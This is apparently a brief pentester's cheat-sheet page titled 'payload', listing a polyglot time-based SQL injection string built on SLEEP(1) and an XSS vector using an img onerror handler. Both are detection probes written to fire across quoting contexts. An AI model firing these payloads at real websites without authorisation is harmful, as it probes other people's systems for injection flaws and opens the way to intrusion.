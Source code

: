 # payload
 ## SQLi one for all
    
    SLEEP(1)+/*'+or+SLEEP(1)+or'"+or+SLEEP(1)+or+"*/
 ## XSS
 
    "><img src=dwqdwq onerror=console.log(1)>
